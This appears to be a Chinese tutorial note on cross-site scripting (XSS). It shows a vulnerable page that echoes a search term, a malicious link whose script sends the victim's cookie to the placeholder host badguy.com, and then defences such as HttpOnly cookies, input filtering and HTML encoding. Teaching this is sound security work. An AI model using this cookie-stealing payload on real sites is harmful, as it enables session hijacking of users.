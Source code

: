 # XSS 跨域脚本攻击(cross-site scripting)

注入攻击的一种，不会对服务器造成任何伤害，通过一些站内正常交互，例如发布评论等提交含有 JavaScript 内容的文本。
这时如果服务端没有过滤或转义这些脚本，含有 JavaScript 脚本的内容发布到了页面上，其它用户访问页面的时候就会运行这些脚本。
XSS 攻击的主要用于获取用户信息(例如 Cookie)、在页面插入内容(例如广告)或流量劫持等。

## 攻击场景 Dom-Based XSS

```HTML
// http://victim.com网站 后台代码
<html>
　　<title></title>
　　<body>
　　　　Results  for  <%Reequest.QueryString("term")%>
　　　　...
　　</body>
</html>
// 攻击
// step1 建立后台用来偷取用户信息
http://badguy.com
// step2 发送恶意链接，可以通过邮件 qq等
http://victim.com/search.asp?term=<script>window.open("http://badguy.com?cookie="+document.cookie)</script>
// 这时只要用户点击这个连接，那么生成的页面中就包含可以指向的代码片段
<script>window.open("http://badguy.com?cookie="+document.cookie)</script>
// 这个代码自动运行把用户的cookie发送到了攻击者的网站
```

## 应对策略

一些高级浏览器会自动拦截 XSS 攻击但是不能完全拦截。
防治的根本之道是过滤用户的输入，做`encode`处理，将其中的`<`、`>`、`'`、`"`、`;`之类的特殊字符进行编码。
在这方面前端无法测地解决，更多的需要后端进行处理。

1. 将重要的 cookie 标记为 http only, 这样的话 Javascript 中的 document.cookie 语句就不能获取到 cookie 了.
2. 只允许用户输入我们期望的数据。 例如：　年龄的 textbox 中，只允许用户输入数字。 而数字之外的字符都过滤掉。
3. 对数据进行 Html Encode 处理
4. 过滤或移除特殊的 Html 标签， 例如: <script>, <iframe> , &lt; for <, &gt; for >, &quot for
5. 过滤 JavaScript 事件的标签。例如 "onclick=", "onfocus" 等等。
